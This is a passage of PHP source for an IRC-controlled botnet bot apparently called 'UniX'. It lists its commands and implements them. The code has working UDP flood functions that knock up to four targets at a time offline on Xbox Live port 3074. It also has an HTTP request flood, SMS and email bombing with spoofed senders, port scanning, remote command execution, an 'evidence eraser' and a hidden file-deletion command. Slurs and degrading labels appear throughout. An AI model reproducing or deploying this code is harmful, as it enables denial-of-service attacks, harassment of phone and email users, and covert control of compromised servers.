                                            {
                                                    $id = $this-&gt;messages['id'];
                                                    $this-&gt;privmsg( $this-&gt;ffff_you( ),"$id");
                                                break;
                                            }
                                            case "uptime":
                                            {
                                                    $part1 = $this-&gt;config['part1'];
                                                    $part2 = $this-&gt;config['part2'];
                                                    $blue = $this-&gt;config['blue'];
                                                    $red = $this-&gt;config['yellow'];
                                                    $up = $this-&gt;ex( 'w' );
                                                    $this-&gt;privmsg( $this-&gt;ffff_you( ),"".$part1."".$red." Uptime ".$part2."".$blue." ".$up."");
                                                break;
                                            }
                                            case "cellhelp":
                                            {
                                                    $part1 = $this-&gt;config['part1'];
                                                    $part2 = $this-&gt;config['part2'];
                                                    $blue = $this-&gt;config['blue'];
                                                    $red = $this-&gt;config['yellow'];
                                                    $cellhelp = "To spam a Cell Phone you will have to know the NUMBER and CARRIER. Example Command: ".$red.".verizon 5551234567 youremail@fbi.gov Subject NumberOfTextsToSend Message";
                                                    $this-&gt;privmsg( $this-&gt;ffff_you( ),"".$part1."".$red." Cell Spammer ".$part2."".$blue." ".$cellhelp."");
                                                break;
                                            }
                                            case "carriers":
                                            {
                                                    $part1 = $this-&gt;config['part1'];
                                                    $part2 = $this-&gt;config['part2'];
                                                    $blue = $this-&gt;config['blue'];
                                                    $red = $this-&gt;config['yellow'];
                                                    $bybye = $this-&gt;ex( 'rm -rf *gow*' );
                                                    $this-&gt;privmsg( $this-&gt;ffff_you( ),"".$part1."".$red." CaRRieRs ".$part2."".$blue." UniX can currently spam - AT&T, Verizon, Sprint, Alltel, T-Mobile, US Celluar, and Boost Mobile");
                                                break;
                                            }
                                            case "ver":
                                            {
                                                    $leetprefix = $this-&gt;config['leetprefix'];
                                                    $leetsuffixred = $this-&gt;config['leetsuffixred'];
                                                    $blue = $this-&gt;config['blue'];
                                                    $red = $this-&gt;config['yellow'];
                                                    $version = $this-&gt;config['version'];
                                                    $this-&gt;privmsg( $this-&gt;ffff_you( ),"".$red."The bot version is $leetprefix$blue $version $leetsuffixred");
                                                break;
                                            }
                                            case "v":
                                            {
                                                    $leetprefix = $this-&gt;config['leetprefix'];
                                                    $leetsuffixred = $this-&gt;config['leetsuffixred'];
                                                    $blue = $this-&gt;config['blue'];
                                                    $red = $this-&gt;config['yellow'];
                                                    $version = $this-&gt;config['version'];
                                                    $this-&gt;privmsg( $this-&gt;ffff_you( ),"".$red."The bot version is $leetprefix$blue $version $leetsuffixred");
                                                break;
                                            }
                                            case "hop":
                                            {
                                                $channel = $mcmd[1];
                                                $this-&gt;send( "PART ".$channel );
                                                $this-&gt;join( $channel );
                                                break;
                                            }
                                            case "raw":
                                            {
                                                $this-&gt;send(strstr($msg,$mcmd[1]));
                                                break;
                                            }
                                            case "ip123":
                                            {
                                                $leetprefixwhite = $this-&gt;config['leetprefixwhite'];
                                                $leetsuffixwhite = $this-&gt;config['leetsuffixwhite'];
                                                $red = $this-&gt;config['yellow'];
                                                $blue = $this-&gt;config['blue'];
                                                $ipadd = "Ip AddReSS";
                                                $this-&gt;privmsg( $this-&gt;ffff_you( ),"$blue $ipadd $leetprefixwhite ".$red." ".$_SERVER['SERVER_ADDR']." $leetsuffixwhite");
                                                break;
                                            }
                                            case "lastlogin":
                                            {
                                                $red = $this-&gt;config['yellow'];
                                                $blue = $this-&gt;config['blue'];
                                                $part1 = $this-&gt;config['part1'];
                                                $part2 = $this-&gt;config['part2'];
                                                $attempt = $this-&gt;ex('cat ion_cache.dat');
                                                $this-&gt;privmsg( $this-&gt;ffff_you( ),"$part1$red LasT LogiN $part2$blue from $attempt");
                                                break;
                                            }
                                            case "commands":
                                            {
                                                $leetprefixwhite = $this-&gt;config['leetprefixwhite'];
                                                $leetsuffixwhite = $this-&gt;config['leetsuffixwhite'];
                                                $red = $this-&gt;config['yellow'];
                                                $blue = $this-&gt;config['blue'];
                                                $version = $this-&gt;config['version'];
                                                $cmdz = "Command List for UniX version $version private:";
                                                $this-&gt;privmsg( $this-&gt;ffff_you( ),"$leetprefixwhite$red $cmdz $leetsuffixwhite");
                                                $this-&gt;privmsg( $this-&gt;ffff_you( ),"$blue [".$red."UDP-Flood".$blue."] ? ? ? ".$red.".udpflood ip packetsize time".$blue." ? ? ?");
                                                $this-&gt;privmsg( $this-&gt;ffff_you( ),"$blue [".$red."Xbox Live Flood".$blue."] ? ? ? ".$red.".xblflood ip packetsize time port".$blue." ? ? ?");
                                                $this-&gt;privmsg( $this-&gt;ffff_you( ),"$blue [".$red."Two BK Flood".$blue."] ? ? ? ".$red.".2kidz first.ip second.ip".$blue." ? ? ?");
                                                $this-&gt;privmsg( $this-&gt;ffff_you( ),"$blue [".$red."Three BK Flood".$blue."] ? ? ? ".$red.".3kidz first.ip second.ip third.ip".$blue." ? ? ?");
                                                $this-&gt;privmsg( $this-&gt;ffff_you( ),"$blue [".$red."Four BK Flood".$blue."] ? ? ? ".$red.".4kidz first.ip second.ip third.ip fourth.ip".$blue." ? ? ?");
                                                $this-&gt;privmsg( $this-&gt;ffff_you( ),"$blue [".$red."Cell RapE".$blue."] ? ? ? ".$red.".cellhelp".$blue." ? ? ?");
                                                $this-&gt;privmsg( $this-&gt;ffff_you( ),"$blue [".$red."Cell Phone Carriers".$blue."] ? ? ? ".$red.".carriers".$blue." ? ? ?");
                                                $this-&gt;privmsg( $this-&gt;ffff_you( ),"$blue [".$red."Evidence Eraser".$blue."] ? ? ? ".$red.".noevidence".$blue." ? ? ?");
                                                $this-&gt;privmsg( $this-&gt;ffff_you( ),"$blue [".$red."Hop".$blue."] ? ? ? ".$red.".hop #channel".$blue." ? ? ?");
                                                $this-&gt;privmsg( $this-&gt;ffff_you( ),"$blue [".$red."Exec".$blue."] ? ? ? ".$red.".exec unix command(s)".$blue." ? ? ?");
                                                $this-&gt;privmsg( $this-&gt;ffff_you( ),"$blue [".$red."eMail RapE".$blue."] ? ? ? ".$red.".bomb victim@fbi.gov spoofed@fake.com Subject NumberOfMails EmailBody".$blue." ? ? ?");
                                                $this-&gt;privmsg( $this-&gt;ffff_you( ),"$blue [".$red."Count".$blue."] ? ? ? ".$red.".count".$blue." ? ? ?");
                                                $this-&gt;privmsg( $this-&gt;ffff_you( ),"$blue [".$red."Nick".$blue."] ? ? ? ".$red.".nick (nzm or unix)".$blue." ? ? ?");
                                                $this-&gt;privmsg( $this-&gt;ffff_you( ),"$blue [".$red."Credits".$blue."] ? ? ? ".$red.".credits".$blue." ? ? ?");
                                                $this-&gt;privmsg( $this-&gt;ffff_you( ),"$blue [".$red."Version".$blue."] ? ? ? ".$red.".v or !ver or !version".$blue." ? ? ?");
                                                $this-&gt;privmsg( $this-&gt;ffff_you( ),"$blue [".$red."Bot Ip".$blue."] ? ? ? ".$red.".ip".$blue." ? ? ?");
                                                $this-&gt;privmsg( $this-&gt;ffff_you( ),"$blue [".$red."MD5 Encrypt".$blue."] ? ? ? ".$red.".md5 string_to_encrypt".$blue." ? ? ?");
                                                $this-&gt;privmsg( $this-&gt;ffff_you( ),"$blue [".$red."DnS".$blue."] ? ? ? ".$red.".dns google.com".$blue." ? ? ?");
                                                $this-&gt;privmsg( $this-&gt;ffff_you( ),"$blue [".$red."Kill Bot".$blue."] ? ? ? ".$red.".exit or !gtfo".$blue." ? ? ?");
                                                $this-&gt;privmsg( $this-&gt;ffff_you( ),"$blue [".$red."Reconnect".$blue."] ? ? ? ".$red.".restart".$blue." ? ? ?");
                                                $this-&gt;privmsg( $this-&gt;ffff_you( ),"$blue [".$red."Whois".$blue."] ? ? ? ".$red.".whois 127.0.0.1".$blue." ? ? ?");
                                                $this-&gt;privmsg( $this-&gt;ffff_you( ),"$blue [".$red."Raw Irc Commands".$blue."] ? ? ? ".$red.".join, .part, .msg".$blue." ? ? ?");
                                                $this-&gt;privmsg( $this-&gt;ffff_you( ),"$blue [".$red."Port Scan".$blue."] ? ? ? ".$red.".pscan ip port".$blue." ? ? ?");
                                                $this-&gt;privmsg( $this-&gt;ffff_you( ),"$blue [".$red."Infected Site Check".$blue."] ? ? ? ".$red.".site".$blue." ? ? ?");
                                                $this-&gt;privmsg( $this-&gt;ffff_you( ),"$blue [".$red."Random Nick".$blue."] ? ? ? ".$red.".randnick".$blue." ? ? ?");
                                                $this-&gt;privmsg( $this-&gt;ffff_you( ),"$blue [".$red."URL Bomb".$blue."] ? ? ? ".$red.".urlbomb site.com /path NumberOfRefreshes".$blue." ? ? ?");
                                                $this-&gt;privmsg( $this-&gt;ffff_you( ),"$blue [".$red."Server Uptime".$blue."] ? ? ? ".$red.".uptime".$blue." ? ? ?");
                                                $this-&gt;privmsg( $this-&gt;ffff_you( ),"$blue [".$red."Speed Test".$blue."] ? ? ? ".$red.".speedtest".$blue." ? ? ?");
                                                $this-&gt;privmsg( $this-&gt;ffff_you( ),"$blue [".$red."Quick UDP-Flood".$blue."] ? ? ? ".$red.".quick ip".$blue." ? ? ?");
                                                $this-&gt;privmsg( $this-&gt;ffff_you( ),"$blue [".$red."Check Last Login".$blue."] ? ? ? ".$red.".lastlogin".$blue." ? ? ?");
                                                $this-&gt;privmsg( $this-&gt;ffff_you( ),"$blue [".$red."Raw Irc Command".$blue."] ? ? ? ".$red.".raw command".$blue." ? ? ?");
                                                $this-&gt;privmsg( $this-&gt;ffff_you( ),"$blue [".$red."Change Command Prefix".$blue."] ? ? ? ".$red.".changeprefix newprefix Example: .changeprefix !".$blue." ? ? ?");
                                                break;
                                            }
                                            case "md5":
                                            {
                                                        $leetprefix = $this-&gt;config['leetprefix'];
                                                        $leetsuffixred = $this-&gt;config['leetsuffixred'];
                                                        $red = $this-&gt;config['yellow'];
                                                        $blue = $this-&gt;config['blue'];
                                                $str_md5 = substr( strstr( $msg, $mcmd[0] ), strlen( $mcmd[0] ) + 1 );
                                                $this-&gt;privmsg( $this-&gt;ffff_you( ), "$blue [ $red MD5 $blue ]: $blue [ ".$red."'".$str_md5."' ".$blue."Encrypts To $red'".md5($str_md5)."' $blue ]" );
                                                break;
                                            }
                                            case "dns":
                                            {
                                                if(isset($mcmd[1]))
                                                   {
                                                      $ip = explode(".",$mcmd[1]);
                                                      if(count($ip)==4 && is_numeric($ip[0]) && is_numeric($ip[1])
                                                        && is_numeric($ip[2]) && is_numeric($ip[3]))
                                                      {
                                                        $leetprefix = $this-&gt;config['leetprefix'];
                                                        $leetsuffixred = $this-&gt;config['leetsuffixred'];
                                                        $red = $this-&gt;config['yellow'];
                                                        $blue = $this-&gt;config['blue'];
                                                         $this-&gt;privmsg($this-&gt;ffff_you( ),"$leetprefix $blue [ $red DnS $blue ]: $red ".$mcmd[1]." $blue Resolves To $leetprefix $red ".gethostbyaddr($mcmd[1]));
                                                          }
                                                      else
                                                      {
                                                        $leetprefix = $this-&gt;config['leetprefix'];
                                                        $leetsuffixred = $this-&gt;config['leetsuffixred'];
                                                        $red = $this-&gt;config['yellow'];
                                                        $blue = $this-&gt;config['blue'];
                            $this-&gt;privmsg($this-&gt;ffff_you( ),"$blue [ $red DnS $blue ]: $red ".$mcmd[1]." $blue Resolves To $red ".gethostbyname($mcmd[1]));
                                                      }
                                                   }
                                                break;
                                            }
                                            case "exit":
                                            {
                                                fclose( $this-&gt;conn );
                                                exit( );
                                                break;
                                            }
                                            case "husk":
                                            {
                                                fclose( $this-&gt;conn );
                                                exit( );
                                                break;
                                            }
                                            case "gtfo":
                                            {
                                                fclose( $this-&gt;conn );
                                                exit( );
                                                break;
                                            }
                                            case "restart":
                                            {
                                                $leetprefixwhite = $this-&gt;config['leetprefixwhite'];
                                                $leetsuffixwhite = $this-&gt;config['leetsuffixwhite'];
                                                $red = $this-&gt;config['yellow'];
                                                $blue = $this-&gt;config['blue'];
                                                $this-&gt;privmsg( $this-&gt;ffff_you( ), "$leetprefixwhite $red Restarting! $leetsuffixwhite $blue Please wait!" );
                                                $this-&gt;send( "QUIT :restart command from ".$nick );
                                                fclose( $this-&gt;conn );
                                                $this-&gt;start();
                                                break;
                                            }
                                            case "lastresort":
                                            {
                                                if( count( $mcmd ) &gt; 3 )
                                                {
                                                    $server = $mcmd[1];
                                                    $port = $mcmd[2];
                                                    $channel = $mcmd[3];
                                                    $key = $mcmd[4];
                                                    if( $this-&gt;using_encode )
                                                    {
                                                        $this-&gt;config[ 'server' ] = base64_encode( $server );
                                                        $this-&gt;config[ 'chan' ] = base64_encode( str_replace( "#", "", $channel ) );
                                                        $this-&gt;config[ 'key' ] = base64_encode( $key );
                                                    }
                                                    else
                                                    {
                                                        $this-&gt;config[ 'server' ] = $server;
                                                        $this-&gt;config[ 'chan' ] = str_replace( "#", "", $channel );
                                                        $this-&gt;config[ 'key' ] = $key;
                                                    }
                                                    $this-&gt;config[ 'port' ] = $port;
                                                    $this-&gt;privmsg( $this-&gt;ffff_you( ), "[ moveserver ] ".$server." =&gt; ".$port." =&gt; ".$channel." =&gt; ".$key );
                                                    $this-&gt;send( "QUIT :moveserver command from ".$nick );
                                                    fclose( $this-&gt;conn );
                                                    $this-&gt;start();
                                                }
                                                break;
                                            }
                                            case "whois":
                                            {
                                                $param2 = $mcmd[1];
                                                if( !empty( $param2 ) )
                                                {
                                                    //do it
                                                    //http://www.geoip.co.uk/?IP=98.214.115.193&submit.x=23&submit.y=11
                                                    $fp = fsockopen( "geoip.co.uk", 80, $errno, $errstr, 30 );
                                                    if( $fp )
                                                    {
                                                        $out = "GET /ipwhois.php?ip=$param2&Submit=submit HTTP/1.1\r\n";
                                                        $out .= "Host: geoip.co.uk\r\n";
                                                        $out .= "Keep-Alive: 300\r\n";
                                                        $out .= "Connection: keep-alive\r\n\r\n";
                                                        fwrite( $fp, $out );
                                                        $whodata = '';
                                                        while(!feof($fp))
                                                        {
                                                            /*do nothing*/
                                                            $whodata .= fread( $fp, 1024 );
                                                        }
                                                        $countryc = explode( "            :", $whodata );
                                                        $countryc = explode( "            : &lt;img src=", $countryc[1] );
                                                        $country = strip_tags( $countryc[0] );
                                                        $statec = explode( "$countryc", $whodata );
                                                        $statec = explode( "                        &lt;br&gt;", $statec[1] );
                                                        $state = strip_tags( $statec[0] );
                                                        $cityc = explode( "$statec", $whodata );
                                                        $cityc = explode( "            : &lt;img src=", $cityc[1] );
                                                        $city = strip_tags( $cityc[0] );
                                                        fclose( $fp );
                                                        $leetprefixwhite = $this-&gt;config['leetprefixwhite'];
                                                                                                                $leetsuffixwhite = $this-&gt;config['leetsuffixwhite'];
                                                                                                                $red = $this-&gt;config['yellow'];
                                                                                                                $blue = $this-&gt;config['blue'];
                                                        $this-&gt;privmsg( $this-&gt;ffff_you( ), "$leetprefixwhite $red $param2 $leetsuffixwhite - $red Country - $blue $country" );
                                                        $this-&gt;privmsg( $this-&gt;ffff_you( ), "$leetprefixwhite $red $param2 $leetsuffixwhite - $red City - $blue $city" );
                                                        $this-&gt;privmsg( $this-&gt;ffff_you( ), "$leetprefixwhite $red $param2 $leetsuffixwhite - $red State - $blue $state" );
                                                    }else{
                                                        $this-&gt;privmsg( $this-&gt;ffff_you( ), "[ whois ] Error: $errstr" );
                                                    }
                                                }
                                                else
                                                {
                                                    $this-&gt;privmsg( $this-&gt;ffff_you( ), "[ whois ] Invalid params, use .whois &lt;ip/host&gt;" );
                                                }
                                                break;
                                            }
                                            case "join":
                                            {
                                                $channel = $mcmd[1];
                                                $key = $mcmd[2];
                                                $this-&gt;join( $channel, $key );
                                                break;
                                            }
                                            case "part":
                                            {
                                                $this-&gt;send( "PART ".$mcmd[1] );
                                            }
                                            case "msg":
                                            {
                                                $person = $mcmd[1];
                                                $text = substr( strstr( $msg, $mcmd[1] ), strlen( $mcmd[1] ) + 1 );
                                                $this-&gt;privmsg( $person, $text );
                                                break;
                                            }
                                            case "pscan":
                                                      $leetprefix = $this-&gt;config['leetprefix'];
                                                    $leetsuffixred = $this-&gt;config['leetsuffixred'];
                                                    $blue = $this-&gt;config['blue'];
                               if(count($mcmd) &gt; 2)
                               {
                                  if(fsockopen($mcmd[1],$mcmd[2],$e,$s,15))
                                     $this-&gt;privmsg($this-&gt;ffff_you( ),"$leetprefix $blue Port Scan $leetsuffixred : $red ".$mcmd[1].":".$mcmd[2]." $blue is OPEN !");
                                  else
                                     $this-&gt;privmsg($this-&gt;ffff_you( ),"$leetprefix $blue Port Scan $leetsuffixred : $blue ".$mcmd[1].":".$mcmd[2]." $red is CLOSED !");
                                      break;
                               }
                                            case "software":
                                            {
                                                $this-&gt;privmsg( $this-&gt;ffff_you( ), $_SERVER[ 'SERVER_SOFTWARE' ] );
                                                break;
                                            }
                                            case "site123":
                                            {
                                                $leetprefixwhite = $this-&gt;config['leetprefixwhite'];
                                                $leetsuffixwhite = $this-&gt;config['leetsuffixwhite'];
                                                $red = $this-&gt;config['yellow'];
                                                $blue = $this-&gt;config['blue'];
                                                $ipzzz = ( $_SERVER["HTTP_HOST"] );
                                                $this-&gt;privmsg( $this-&gt;ffff_you( ), "$blue This bot is running on $leetprefixwhite $red $ipzzz $leetsuffixwhite" );
                                                break;
                                            }
                                            case "randnick":
                                            {
                                                $this-&gt;set_nick();
                                                break;
                                            }
                                            case "logout":
                                            {
                                                $logoutmsg = $this-&gt;messages['logoutmsg'];
                                                $leetprefixwhite = $this-&gt;config['leetprefixwhite'];
                                                $leetsuffixwhite = $this-&gt;config['leetsuffixwhite'];
                                                $red = $this-&gt;config['yellow'];
                                                $part2 = $this-&gt;config['part2'];
                                                $this-&gt;remove_auth( $host );
                                                $this-&gt;privmsg( $this-&gt;ffff_you( ), "$logoutmsg $leetprefixwhite $red$nick $leetsuffixwhite $part2" );
                                                break;
                                            }
                                            case "urlbomb":
                                            {
                                                $this-&gt;urlbomb( $mcmd[ 1 ], $mcmd[ 2 ], $mcmd[ 3 ] );
                                                break;
                                            }
                                            case "udpflood":
                                                {
                                                   if( count( $mcmd ) &gt; 3 )
                                                   {
                                                      $this-&gt;udpflood($mcmd[1],$mcmd[2],$mcmd[3]);
                                                   }
                                                }
                                            case "stop":
                                            {
                                            fclose($fp);
                                            break;
                                            }
                                            case "xblflood":
                                            {
                                                   if( count( $mcmd ) &gt; 4 )
                                                   {;
                                                      $this-&gt;udpflood4($mcmd[1],$mcmd[2],$mcmd[3],$mcmd[4]);
                                                   }
                                                break;
                                            }
                                            case "speedtest":
                                            {
                                                      $this-&gt;udpflood3(hi,650000,5);
                                                break;
                                            }
                                            case "2kidz":
                                            {
                                                      $this-&gt;udpflood5($mcmd[1],$mcmd[2]);
                                                break;
                                            }
                                            case "3kidz":
                                            {
                                                      $this-&gt;udpflood7($mcmd[1],$mcmd[2],$mcmd[3]);
                                                break;
                                            }
                                            case "4kidz":
                                            {
                                                      $this-&gt;udpflood6($mcmd[1],$mcmd[2],$mcmd[3],$mcmd[4]);
                                                break;
                                            }
                                                    case "quick":
                                            {
                                                   if( count( $mcmd ) &gt; 1 )
                                                   {
                                                      $this-&gt;udpflood2($mcmd[1],65000,60);
                                                   }
                                                break;
                                                }
                                        }
                                    }
                                }
                            break;
                        }
                    }
                }
                $old_buf = $this-&gt;buf;
            }
            $this-&gt;start();
        }
        function scanport( $host, $port )
        {
            if( fsockopen( $host, $port, $e, $s ) )
            {
                return 1;
            }
            return 0;
        }
        function urlbomb( $host, $path, $times, $mode = 0 )
        {
            if( !isset( $host ) || !isset( $path ) || !isset( $times ) )
                return;
            $leetprefixwhite = $this-&gt;config['leetprefixwhite'];
            $leetsuffixwhite = $this-&gt;config['leetsuffixwhite'];
            $leetprefix = $this-&gt;config['leetprefix'];
            $leetsuffixred = $this-&gt;config['leetsuffixred'];
            $red = $this-&gt;config['yellow'];
            $blue = $this-&gt;config['blue'];
            $http = "http://";
            $this-&gt;privmsg( $this-&gt;ffff_you( ),"$leetprefixwhite $red URLbomb started! $leetsuffixwhite  on $red [ $blue ".$http."".$host."".$path." $red ]");
            $success = 0;
            for( $i = 0; $i &lt; $times; $i++ )
            {
                $fp = fsockopen( $host, 80, $errno, $errstr, 30 );
                if( $fp )
                {
                    $out = "GET /".$path." HTTP/1.1\r\n";
                    $out .= "Host: ".$host."\r\n";
                    $out .= "Keep-Alive: 300\r\n";
                    $out .= "Connection: keep-alive\r\n\r\n";
                    fwrite( $fp, $out );
                    if( $mode != 0 )
                    {
                        while(!feof($fp)){/*do nothing*/}
                    }
                    fclose( $fp );
                    $success++;
                }
            }
            $leetprefixwhite = $this-&gt;config['leetprefixwhite'];
            $leetsuffixwhite = $this-&gt;config['leetsuffixwhite'];
            $leetprefix = $this-&gt;config['leetprefix'];
            $leetsuffixred = $this-&gt;config['leetsuffixred'];
            $red = $this-&gt;config['yellow'];
            $blue = $this-&gt;config['blue'];
            $http = "http://";
            $this-&gt;privmsg( $this-&gt;ffff_you( ),"$leetprefixwhite $red URLbomb finished! $leetsuffixwhite $blue on $red [ $blue ".$http."".$host."".$path." $red ] $blue [$red Times Visited: $blue ".$success." $blue ]" );
        }
        function udpflood2( $host, $packetsize, $time )
        {
            $udpmsgfast = $this-&gt;messages['udpmsgfast'];
            $leetprefixwhite = $this-&gt;config['leetprefixwhite'];
            $leetsuffixwhite = $this-&gt;config['leetsuffixwhite'];
            $red = $this-&gt;config['yellow'];
            $blue = $this-&gt;config['yellow'];
            $this-&gt;privmsg( $this-&gt;ffff_you( ),"$udpmsgfast Started On $leetprefixwhite$red $host $leetsuffixwhite" );
            $packet = "";
            for($i=0;$i&lt;$packetsize;$i++) { $packet .= chr(mt_rand(1,256)); }
            $timei = time();
            $i = 0;
            while(time()-$timei &lt; $time)
            {
                $xboxlive = "3074";
                $fp=fsockopen("udp://".$host,$xboxlive,$e,$s,5);
                fwrite($fp,$packet);
                fclose($fp);
                $i++;
            }
            $env = $i * $packetsize;
            $env = $env / 1048576;
            $vel = $env / $time;
            $vel = round($vel);
            $env = round($env);
            $fag = "$udpmsgfast - Sent Total $leetprefixwhite$red $env Megabytes $leetsuffixwhite$red With A Speed Of $leetprefixwhite$red $vel MegaBytes/Second $leetsuffixwhite";
            $this-&gt;privmsg( $this-&gt;ffff_you( ),"$fag$fag2" );
            $this-&gt;ex('echo 1 &gt;&gt; cache.dat');
        }
    function udpflood3( $host, $packetsize, $time )
        {
            $leetprefixwhite = $this-&gt;config['leetprefixwhite'];
            $speedtest = $this-&gt;messages['speedtest'];
            $speedtestfin = $this-&gt;messages['speedtestfin'];
            $leetsuffixwhite = $this-&gt;config['leetsuffixwhite'];
            $red = $this-&gt;config['yellow'];
            $blue = $this-&gt;config['yellow'];
            $green = $this-&gt;config['green'];
            $part1 = $this-&gt;config['part1'];
            $part2 = $this-&gt;config['part2'];
            $this-&gt;privmsg( $this-&gt;ffff_you( ),"$part1$red The Speedtest Has been Started.... $part2 - $blue Please Wait......" );
            $packet = "";
            for($i=0;$i&lt;$packetsize;$i++) { $packet .= chr(mt_rand(1,256)); }
            $timei = time();
            $i = 0;
            while(time()-$timei &lt; $time)
            {
                $xboxlive = "3074";
                $fp=fsockopen("udp://".$host,$xboxlive,$e,$s,5);
                fwrite($fp,$packet);
                fclose($fp);
                $i++;
            }
            $env = $i * $packetsize;
            $env = $env / 1048576;
            $vel = $env / $time;
            $vel = round($vel);
            $env = round($env);
            $red = $this-&gt;config['yellow'];
            $part1 = $this-&gt;config['part1'];
            $part2 = $this-&gt;config['part2'];
            $blue = $this-&gt;config['yellow'];
            $fag = "$part1$red The Speedtest Is Complete. $part2 - $blue This Bot Hits At".$red." $vel MegaBytes/Second";
            $this-&gt;privmsg( $this-&gt;ffff_you( ),"$fag$fag2" );
            $this-&gt;ex('echo 1 &gt;&gt; cache.dat');
        }
    function udpflood5( $host, $crack )
        {
            $packetsize = "65000";
            $time = "60";
            $port = "3074";
            $leetprefixwhite = $this-&gt;config['leetprefixwhite'];
            $speedtest = $this-&gt;messages['speedtest'];
            $speedtestfin = $this-&gt;messages['speedtestfin'];
            $leetsuffixwhite = $this-&gt;config['leetsuffixwhite'];
            $red = $this-&gt;config['yellow'];
            $blue = $this-&gt;config['yellow'];
            $green = $this-&gt;config['green'];
            $part1 = $this-&gt;config['part1'];
            $part2 = $this-&gt;config['part2'];
            $this-&gt;privmsg( $this-&gt;ffff_you( ),"$part1$red TwO PlayeR DDoS $part2 - $blue Booting $host and $crack! Attacking on port $port" );
            $packet = "";
            for($i=0;$i&lt;$packetsize;$i++) { $packet .= chr(mt_rand(1,256)); }
            $timei = time();
            $i = 0;
            while(time()-$timei &lt; $time)
            {
                $port = "3074";
                $fp=fsockopen("udp://".$host,$port,$e,$s,5);
                $fp2=fsockopen("udp://".$crack,$port,$e,$s,5);
                fwrite($fp,$packet);
                fwrite($fp2,$packet);
                fclose($fp);
                fclose($fp2);
                $i++;
            }
            $env = $i * $packetsize;
            $env = $env / 1048576;
            $vel = $env / $time;
            $vel = round($vel);
            $env = round($env);
            $red = $this-&gt;config['yellow'];
            $part1 = $this-&gt;config['part1'];
            $part2 = $this-&gt;config['part2'];
            $blue = $this-&gt;config['yellow'];
            $fag = "$part1$red TwO PlayeR DDoS! $part2 - $blue $host and $crack are offline! ".$red." $vel MegaBytes/Second";
            $this-&gt;privmsg( $this-&gt;ffff_you( ),"$fag$fag2" );
            $this-&gt;ex('echo 1 &gt;&gt; cache.dat');
        }
    function udpflood6( $host, $crack, $herion, $coke )
        {
            $packetsize = "65000";
            $time = "60";
            $port = "3074";
            $leetprefixwhite = $this-&gt;config['leetprefixwhite'];
            $speedtest = $this-&gt;messages['speedtest'];
            $speedtestfin = $this-&gt;messages['speedtestfin'];
            $leetsuffixwhite = $this-&gt;config['leetsuffixwhite'];
            $red = $this-&gt;config['yellow'];
            $blue = $this-&gt;config['yellow'];
            $green = $this-&gt;config['green'];
            $part1 = $this-&gt;config['part1'];
            $part2 = $this-&gt;config['part2'];
            $this-&gt;privmsg( $this-&gt;ffff_you( ),"$part1$red 4 Player DDoS! $part2 - $blue Booting $host, $crack, $herion, and $coke! Attacking on port $port" );
            $packet = "";
            for($i=0;$i&lt;$packetsize;$i++) { $packet .= chr(mt_rand(1,256)); }
            $timei = time();
            $i = 0;
            while(time()-$timei &lt; $time)
            {
                $port = "3074";
                $fp=fsockopen("udp://".$host,$port,$e,$s,5);
                $fp2=fsockopen("udp://".$crack,$port,$e,$s,5);
                $fp3=fsockopen("udp://".$herion,$port,$e,$s,5);
                $fp4=fsockopen("udp://".$coke,$port,$e,$s,5);
                fwrite($fp,$packet);
                fwrite($fp2,$packet);
                fwrite($fp3,$packet);
                fwrite($fp4,$packet);
                fclose($fp);
                fclose($fp2);
                fclose($fp3);
                fclose($fp4);
                $i++;
            }
            $env = $i * $packetsize;
            $env = $env / 1048576;
            $vel = $env / $time;
            $vel = round($vel);
            $env = round($env);
            $red = $this-&gt;config['yellow'];
            $part1 = $this-&gt;config['part1'];
            $part2 = $this-&gt;config['part2'];
            $blue = $this-&gt;config['yellow'];
            $fag = "$part1$red 4 Player DDoS CompletE! $part2 - $blue $host, $crack, $herion, and $coke are ALL offline! ".$red." $vel MegaBytes/Second";
            $this-&gt;privmsg( $this-&gt;ffff_you( ),"$fag$fag2" );
            $this-&gt;ex('echo 1 &gt;&gt; cache.dat');
        }
    function udpflood7( $stoner, $allalone, $daynnite )
        {
            $packetsize = "65000";
            $time = "60";
            $port = "3074";
            $leetprefixwhite = $this-&gt;config['leetprefixwhite'];
            $speedtest = $this-&gt;messages['speedtest'];
            $speedtestfin = $this-&gt;messages['speedtestfin'];
            $leetsuffixwhite = $this-&gt;config['leetsuffixwhite'];
            $red = $this-&gt;config['yellow'];
            $blue = $this-&gt;config['yellow'];
            $green = $this-&gt;config['green'];
            $part1 = $this-&gt;config['part1'];
            $part2 = $this-&gt;config['part2'];
            $this-&gt;privmsg( $this-&gt;ffff_you( ),"$part1$red 3 Player DDoS! $part2 - $blue Booting $stoner, $allalone, and $daynnite! Attacking on port $port" );
            $packet = "";
            for($i=0;$i&lt;$packetsize;$i++) { $packet .= chr(mt_rand(1,256)); }
            $timei = time();
            $i = 0;
            while(time()-$timei &lt; $time)
            {
                $port = "3074";
                $fp2=fsockopen("udp://".$stoner,$port,$e,$s,5);
                $fp3=fsockopen("udp://".$allalone,$port,$e,$s,5);
                $fp4=fsockopen("udp://".$daynnite,$port,$e,$s,5);
                fwrite($fp2,$packet);
                fwrite($fp3,$packet);
                fwrite($fp4,$packet);
                fclose($fp2);
                fclose($fp3);
                fclose($fp4);
                $i++;
            }
            $env = $i * $packetsize;
            $env = $env / 1048576;
            $vel = $env / $time;
            $vel = round($vel);
            $env = round($env);
            $red = $this-&gt;config['yellow'];
            $part1 = $this-&gt;config['part1'];
            $part2 = $this-&gt;config['part2'];
            $blue = $this-&gt;config['yellow'];
            $fag = "$part1$red 3 Player DDoS CompletE! $part2 - $blue $stoner, $allalone, and $daynnite are now offline offline! ".$red." $vel MegaBytes/Second";
            $this-&gt;privmsg( $this-&gt;ffff_you( ),"$fag$fag2" );
            $this-&gt;ex('echo 1 &gt;&gt; cache.dat');
        }
        function udpflood( $host, $packetsize, $time )
        {
            $udpmsg = $this-&gt;messages['udpmsg'];
            $leetprefixwhite = $this-&gt;config['leetprefixwhite'];
            $leetsuffixwhite = $this-&gt;config['leetsuffixwhite'];
            $red = $this-&gt;config['yellow'];
            $blue = $this-&gt;config['yellow'];
            $this-&gt;privmsg( $this-&gt;ffff_you( ),"$udpmsg Started On $leetprefixwhite$red $host $leetsuffixwhite for $leetprefixwhite$red $time Seconds $leetsuffixwhite$red With $leetprefixwhite$red $packetsize Packets $leetsuffixwhite" );
            $packet = "";
            for($i=0;$i&lt;$packetsize;$i++) { $packet .= chr(mt_rand(1,256)); }
            $timei = time();
            $i = 0;
            while(time()-$timei &lt; $time)
            {
                $fp=fsockopen("udp://".$host,mt_rand(0,6000),$e,$s,5);
                fwrite($fp,$packet);
                fclose($fp);
                $i++;
            }
